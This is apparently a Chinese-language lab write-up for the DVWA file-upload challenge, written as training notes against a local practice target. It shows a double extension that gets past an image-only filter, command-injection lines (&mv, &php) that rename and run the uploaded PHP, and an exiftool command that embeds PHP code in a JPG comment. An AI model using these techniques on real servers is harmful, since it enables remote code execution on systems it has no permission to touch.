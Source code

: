 # File Upload

> Objective
> Execute any PHP function of your choosing on the target system (such as [phpinfo()](https://secure.php.net/manual/en/function.phpinfo.php)
> or [system()](https://secure.php.net/manual/en/function.system.php)) thanks to this file upload vulnerability.

### 觀察

試著上傳 *.php 檔案，這次它會檢查副檔名，限定 `jpg` or `png`

```
yo.php
yo.php.php
```

```
Your image was not uploaded. We can only accept JPEG or PNG images.
```

### 更換副檔名上傳後搭配 command injection 執行檔案

那我們就給它 jpg 吧，上傳後再想辦法把副檔名改回來，還好沒有檢查的很嚴格

```
yo.php.jpg
```

```
../../hackable/uploads/yo.php.jpg succesfully uploaded!
```

回到 command injection 的頁面，確認檔案有上傳成功

```
&ls ../../hackable/uploads
```

```
dvwa_email.png
yo.php.jpg
```

接著只要將副檔名從 `jpg` 修改回 `php` 即可

```
&mv ../../hackable/uploads/yo.php.jpg ../../hackable/uploads/yo.php
```

```
&ls ../../hackable/uploads
```

```
dvwa_email.png
yo.php
```

最後直接在這頁執行也可從上傳的資料路徑夾執行我們上傳的檔案

```
&php ../../hackable/uploads/yo.php
```

```
http://localhost:8086/hackable/uploads/yo.php
```

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/0fa61ad0-ae2d-4654-b092-f881fc3ff75d/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T171113Z&X-Amz-Expires=86400&X-Amz-Signature=00538e46cad98457de7077e0418d9c076893d65406a301c447e278d1f72d8b6e&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/b8b021c5-5525-4870-a47e-4b11d8c74a0f/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T171117Z&X-Amz-Expires=86400&X-Amz-Signature=8191eee2306fd26b8c1bc42ad96f84f37e05f41234d34661c8730c5c75534235&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

---
## Update February 19, 2022

### 修正: executable image

### 使用 `exiftool` 將惡意內容寫入要上傳的圖片，然後再更改檔名上傳即可，這個方式比較好

```bash
exiftool -Comment="<?php phpinfo(); __halt_compiler(); ?>" demo-upload.jpg
```

```php
mv demo-upload.jpg demo-upload.jpg.php
```
```php
http://dvwa.localtest/hackable/uploads/demo-upload.jpg.php
```
![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/300dad9f-b7b3-4615-a49c-a1dc9d6f1283/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220219%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220219T084448Z&X-Amz-Expires=86400&X-Amz-Signature=09d70488a1a19106326372efe8f66ae540e8507f5ff0e5648b8816ddd43dd2d1&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

- Injecting executable PHP code to a JPG image file - One Step! Code
[https://onestepcode.com/injecting-php-code-to-jpg/](https://onestepcode.com/injecting-php-code-to-jpg/)
